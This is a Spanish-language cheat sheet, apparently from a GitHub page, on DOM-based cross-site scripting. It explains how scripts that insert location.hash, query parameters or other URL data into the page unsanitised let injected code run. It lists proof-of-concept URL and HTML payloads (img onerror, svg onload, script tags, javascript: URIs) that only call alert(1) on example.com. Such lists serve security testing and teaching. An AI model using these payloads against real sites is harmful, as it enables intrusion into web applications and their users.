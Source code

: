 Este tipo de XSS ocurre cuando el navegador interpreta datos manipulados por JavaScript, como `document.location`, `document.URL`, `location.hash`, etc., sin validarlos correctamente. La inyección no se refleja directamente en el HTML, sino que se ejecuta mediante el DOM en tiempo real.

---

**Ejemplo de uso típico en URLs con `location.hash`**  
El JavaScript de la página lee el hash y lo inserta en el DOM sin sanitizar.

```url
https://example.com/#<img src=x onerror=alert(1)>
````

---

**Payload con `location.search`**  
Cuando el parámetro GET se utiliza directamente en el DOM por JavaScript vulnerable:

```url
https://example.com/?msg=<svg/onload=alert(1)>
```

---

**Payloads para manipulación de `document.write` o `innerHTML`**  
Si el JS hace algo como:  
`document.write(location.hash);`  
puedes inyectar directamente HTML/JS:

```url
https://example.com/#<script>alert(1)</script>
```

---

**Payload con manipulación de parámetros usados por funciones JS**  
Si el código hace algo como:  
`var name = new URLSearchParams(location.search).get("user");`  
`document.getElementById("msg").innerHTML = "Hola " + name;`

Entonces puedes usar:

```url
https://example.com/?user=<img src=x onerror=alert(1)>
```

---

**Uso de `javascript:` URI en elementos que permitan `href`**  
Algunos enlaces pueden permitir `javascript:` como esquema.

```html
<a href="javascript:alert(1)">Haz clic</a>
```

O directamente en la URL si hay un redireccionamiento o uso de `href` sin validación:

```url
https://example.com/?url=javascript:alert(1)
```

---